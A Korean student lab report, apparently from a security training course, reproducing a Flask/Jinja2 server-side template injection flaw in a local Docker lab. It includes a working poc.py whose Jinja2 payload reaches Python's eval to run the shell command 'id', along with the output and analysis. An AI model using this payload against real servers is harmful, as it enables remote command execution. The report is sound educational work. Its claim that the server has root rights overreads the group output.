 # Flask (Jinja2) SSTI 취약점 검증 및 PoC 실습 보고서
> 화이트햇 스쿨 3기 - 최아현(5975)

<br/>

## 1. SSTI 개념 증명 해보기 (poc코드 수정 전)

위의 깃허브링크에서 **Flask (Jinja2) SSTI (Server Side Template Injection) 취약점**을 선택하였고, 해당 깃허브 링크를 fork해서 내 github에 복사하였다.

### 1.1 실습 환경 구축

- docker desktop 설치
- Git-2.49.0-64-bit 설치
- python 3.13.3 도 설치
  
### 1.2 프로젝트 clone 및 실행
다음 명령어를 통하여 내 GitHub에서 Fork된 kr-vulhub 클론한 뒤 해당 폴더로 이동하였다.
1. git clone https://github.com/ChoiAh/kr-vulhub.git
2. cd kr-vulhub/Flask/SSTI

### 1.3 Docker로 Flask 서버 실행하기
docker-compose up -d 명령어를 통하여 
![docker-compose up -d 실행결과](./1.png)

### 1.4 브라우저에서 flask 서버 접속
![서버 접속 실행결과](./1.png)
1. http://localhost:8000/?name={{7*7}} → Hello 49 출력 확인
2. http://localhost:8000/?name={{5*5}} → Hello 25 출력 확인
### 1.5 출력 결과 분석
이건 서버가 내가 입력한 것을 내부에서 파이썬 연산처럼 처리했다는 , Flask 서버가 이걸 Jinja2 템플릿 문법으로 처리해서 7 * 7 = 49 계산한 결과를 보여주는 것, 서버가 사용자의 입력을 코드로 실행한 것 = SSTI 발생! 템플릿 엔진이 입력된 수식을 그대로 실행한 결과를 보여주고 이는 SSTI취약점이 존재함을 의미

<br/>

## 2. 공격코드 (poc.py) 실행
Flask 서버에 실제 시스템 명령어 삽입하기 (PoC 수행)

### 2.1 poc.py 작성
vs code에서 C:\Users\chloe\kr-vulhub\Flask\SSTI 이 경로에 poc.py라는 이름의 py파일을 생성하고 아래의 코드를 입력해 넣었다.
```python
from urllib import parse
import requests

script = '__import__("os").popen("id").read()'
# SSTI 취약점 유발 코드
value = """{% for c in [].__class__.__base__.__subclasses__() %}
{% if c.__name__ == 'catch_warnings' %}
  {% for b in c.__init__.__globals__.values() %}
  {% if b.__class__ == {}.__class__ %}
    {% if 'eval' in b.keys() %}
      {{ b['eval']('%s') }}
    {% endif %}
  {% endif %}
  {% endfor %}
{% endif %}
{% endfor %}"""
value = value.replace("%s", script)

print("<SSTI 취약점 유발 코드>")
print(value)
print()

# SSTI를 수행하는 URL 생성
query = [("name", value)]
url = "http://localhost:8000/?" + parse.urlencode(query)
print("<요청 URL>")
print(url)
print()

# 실제 요청 전송
response = requests.get(url)
print("<서버의 응답>")
print(response.text)
```
![vs code로 poc.py작성](./3.png)

### 2.2 poc.py 실행
py poc.py명령을 통하여 위에서 작성한 코드를 실행해보았다.
![poc.py 실행결과](./4.png)
위의 사진처럼 출력이 되었다.
 > uid=33(www-data) gid=33(www-data) groups=33(www-data),0(root)
> 
### 2.3 출력값의 의미
- uid=33(www-data)  → 현재 FLASK서버가  uid=33(www-data) 계정으로 실행중이라는 의미
- gid=33(www-data) →   현재 FLASK서버가  gid=33(www-data) 그룹 계정으로 실행중이라는 의미
- groups=33(www-data),0(root) → 이서버는 root권한도 가지고 있다는 뜻

### 2.4 출력 결과 분석
즉, 템플릿 인젝션으로 서버에서 임의 시스템 명령어 실행이 가능했고 실행된 결과로 서버 내부 계정 정보를 탈취할 수 있었다. 따라서 결과적으로 해당 flask 서버의 제어권한을 획득할 수 있었다. 
서버에서  os명령어가 실행되었고 해당 flask 서버가 root권한을 포함하고 있는 것을  확인할 수 있음

<br/>

## 3. 결론

[poc.py](http://poc.py) 스크립트를 통하여 SSTI취약점이 존재하는 FLASK서버에 악의적인 템플릿 코드(`__import__("os").popen("id").read()` 명령어를 실행하는 코드 )를 삽입하였다. 따라서 서버는 해당 코드를 실행하여 현재 사용자의 UID, GID, groups를 알려주었다. 이 실습을 통하여 flask서버의 stti 취약점을 통하여 원격 코드 실행 수준의 제어가 가능함을 확인할 수 있었다. 공격자는 `name` 파라미터에 Jinja2 템플릿 문법을 삽입함으로써 서버 측에서 Python 코드가 실행되도록 유도함, 이를 통해 단순 수식 평가뿐 아니라 시스템 명령어(`id`)까지 실행할 수 있었으며, 서버의 UID, GID 정보가 노출됨, 이는 명백한 SSTI 취약점으로, 상황에 따라 **원격 명령 실행(RCE)** 으로 이어질 수 있는 심각한 보안 위협임
